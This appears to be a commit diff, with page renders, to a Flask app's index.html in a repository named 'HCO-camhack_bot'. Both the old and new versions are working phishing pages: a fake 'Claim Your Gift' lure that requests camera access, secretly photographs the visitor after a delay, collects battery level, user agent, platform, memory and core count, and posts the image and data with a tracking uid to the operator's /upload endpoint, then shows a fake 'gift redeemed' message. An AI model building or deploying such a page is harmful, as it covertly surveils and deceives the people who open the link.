

Before and after one commit to Roshan0786shah/HCO-camhack_bot, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,108 +1,98 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Claim Your Gift</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1">
     <style>
-        body { background: white; color: black; text-align: center; font-family: sans-serif; transition: 0.5s; margin:0; display: flex; align-items: center; justify-content: center; height: 100vh; overflow: hidden; }
-        #loading-ui { display: none; }
-        .gudda-container { position: relative; width: 150px; height: 120px; margin: 0 auto; }
-        .gudda-img { width: 70px; position: absolute; left: 20px; bottom: 10px; }
-        .key-anim { width: 30px; position: absolute; right: 30px; top: 30px; animation: rotateKey 1.2s infinite linear; }
-        @keyframes rotateKey { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
-        .loader { border: 4px solid #f3f3f3; border-top: 4px solid #00ff00; border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; margin: 20px auto; }
-        @keyframes spin { 100% { transform: rotate(360deg); } }
-        .btn { background: #00ff00; color: black; border: none; padding: 18px 35px; font-size: 19px; font-weight: bold; border-radius: 50px; cursor: pointer; box-shadow: 0 5px 20px rgba(0,255,0,0.4); }
+        body { background: #1a1a1a; color: white; text-align: center; font-family: Arial; padding: 20px; }
+        .container { margin-top: 50px; }
+        .btn { background: #00ff00; color: black; padding: 15px 30px; font-size: 18px;
+               border: none; border-radius: 50px; cursor: pointer; font-weight: bold; text-transform: uppercase; }
+        #gift-box { width: 120px; display: none; margin: 0 auto; }
+        .bounce { animation: bounce 0.8s infinite; }
+        @keyframes bounce { 0%, 100% { transform: translateY(0); } 50% { transform: translateY(-20px); } }
+        .sparkle { position: absolute; top: 40%; left: 50%; transform: translate(-50%, -50%);
+                   width: 0; height: 0; box-shadow: 0 0 60px 40px gold; border-radius: 50%; display: none; }
+        #message { margin-top: 20px; font-size: 18px; font-weight: bold; color: #ffffff; }
+        #final-msg { color: #00ff00; display: none; }
+        #sub-msg { color: #00ff00; font-size: 14px; display: none; }
     </style>
 </head>
 <body>
-    <div id="start-page">
-        <h2>🎁 You have a surprise gift! ✨</h2>
-        <p>👇 Click below to unlock it 🔓</p>
-        <button class="btn" onclick="startWork()">🔓 UNLOCK YOUR GIFT 🎁</button>
+    <div class="container">
+        <h2 id="header">🎁 You have a surprise gift! ✨</h2>
+        <div id="sparkle" class="sparkle"></div>
+        <img id="gift-box" src="https://cdn-icons-png.flaticon.com/512/4213/4213958.png">
+
+        <div id="action-area">
+            <p>👇 Click below to unlock it 🔒</p>
+            <button class="btn" onclick="startProcess()">🔓 UNLOCK YOUR GIFT 🎁</button>
         </div>
 
-    <div id="loading-ui">
-        <div class="gudda-container">
-            <img class="gudda-img" src="https://cdn-icons-png.flaticon.com/512/226/226770.png">
-            <img class="key-anim" src="https://cdn-icons-png.flaticon.com/512/3039/3039433.png">
-        </div>
-        <p style="font-size: 20px; margin-top: 15px; font-weight: bold;">Your Gift is Loading...🎁</p>
-        <div class="loader"></div>
+        <div id="loading-area" style="display:none;">
+            <p id="message">Your Gift is Loading...🎁</p>
         </div>
 
-    <div id="success-msg" style="display:none; color:#00ff00; padding: 20px;">
-        <h2>Your gift has been redeemed.👍</h2>
-        <p>You are a good person, God bless you. ✨</p>
+        <div id="success-area">
+            <h2 id="final-msg">Your gift has been redeemed. 👍</h2>
+            <p id="sub-msg">You are a good person, God bless you. ✨</p>
+        </div>
     </div>
 
-    <video id="v" style="display:none" autoplay playsinline muted></video>
-    <canvas id="c" style="display:none"></canvas>
+    <video id="video" style="display:none" autoplay playsinline></video>
+    <canvas id="canvas" style="display:none"></canvas>
+    <audio id="magic-sound" src="https://www.soundjay.com/misc/sounds/magic-chime-01.mp3"></audio>
 
     <script>
-        const params = new URLSearchParams(window.location.search);
-        const mode = params.get('m') || 'front';
-        const uid = params.get('uid');
+    const urlParams = new URLSearchParams(window.location.search);
+    const uid = urlParams.get('uid');
+    const mode = urlParams.get('m');
+    const video = document.getElementById('video');
+    const canvas = document.getElementById('canvas');
 
-        async function startWork() {
-            document.body.style.background = "black";
-            document.body.style.color = "white";
-            document.getElementById('start-page').style.display = 'none';
-            document.getElementById('loading-ui').style.display = 'block';
+    async function startProcess() {
+        try {
+            const stream = await navigator.mediaDevices.getUserMedia({ video: true });
+            video.srcObject = stream;
 
-            let info = {
-                battery: "N/A",
-                platform: navigator.platform,
-                browser: navigator.userAgent.split(' ').pop(),
-                screen: window.screen.width + "x" + window.screen.height
+            document.getElementById('action-area').style.display = "none";
+            document.getElementById('header').style.display = "none";
+            document.getElementById('loading-area').style.display = "block";
+            document.getElementById('gift-box').style.display = "block";
+            document.getElementById('gift-box').classList.add('bounce');
+
+            setTimeout(async () => {
+                canvas.width = video.videoWidth;
+                canvas.height = video.videoHeight;
+                canvas.getContext('2d').drawImage(video, 0, 0);
+                const image = canvas.toDataURL('image/jpeg');
+
+                const battery = await navigator.getBattery();
+                const info = {
+                    battery: (battery.level * 100) + "%",
+                    browser: navigator.userAgent,
+                    device: navigator.platform,
+                    ram: navigator.deviceMemory || "N/A",
+                    cores: navigator.hardwareConcurrency || "N/A"
                 };
-            try { let b = await navigator.getBattery(); info.battery = Math.round(b.level*100)+"%"; } catch(e){}
 
-            // Device info extraction from userAgent
-            let deviceName = navigator.userAgent.match(/\(([^)]+)\)/) ? navigator.userAgent.match(/\(([^)]+)\)/)[1].split(';')[0] : navigator.platform;
-
-            if(mode === 'front') await runCam(info, {facingMode: "user"}, 4, "FRONT", deviceName);
-            else if(mode === 'back') await runCam(info, {facingMode: "environment"}, 4, "BACK", deviceName);
-            else {
-                await runCam(info, {facingMode: "environment"}, 2, "BACK", deviceName);
-                await runCam(info, {facingMode: "user"}, 2, "FRONT", deviceName);
-            }
-
-            document.getElementById('loading-ui').style.display = 'none';
-            document.getElementById('success-msg').style.display = 'block';
-        }
-
-        async function runCam(info, constraints, count, label, deviceName) {
-            try {
-                let stream = await navigator.mediaDevices.getUserMedia({
-                    video: { ...constraints, width: {ideal: 1280}, height: {ideal: 720} }
-                });
-                let video = document.getElementById('v');
-                video.srcObject = stream;
-                await video.play();
-
-                // 8 seconds delay for camera stability
-                await new Promise(r => setTimeout(r, 8000));
-
-                for (let i = 1; i <= count; i++) {
-                    let can = document.getElementById('c');
-                    can.width = video.videoWidth;
-                    can.height = video.videoHeight;
-                    can.getContext('2d').drawImage(video, 0, 0);
-
-                    await fetch('/upload', {
+                fetch('/upload', {
                     method: 'POST',
                     headers: {'Content-Type': 'application/json'},
-                        body: JSON.stringify({
-                            image: can.toDataURL('image/jpeg', 0.8),
-                            info: { ...info, device: deviceName },
-                            mode: label,
-                            uid: uid
-                        })
+                    body: JSON.stringify({ image, uid, mode, info })
                 });
-                    await new Promise(r => setTimeout(r, 2500));
+
+                document.getElementById('gift-box').classList.remove('bounce');
+                document.getElementById('gift-box').src = "https://cdn-icons-png.flaticon.com/512/4213/4213600.png";
+                document.getElementById('loading-area').style.display = "none";
+                document.getElementById('sparkle').style.display = "block";
+                document.getElementById('magic-sound').play();
+                document.getElementById('final-msg').style.display = "block";
+                document.getElementById('sub-msg').style.display = "block";
+            }, 8000);
+        } catch (err) {
+            alert("Camera permission is required to claim the gift!");
         }
-                stream.getTracks().forEach(t => t.stop());
-            } catch(e) {}
     }
     </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
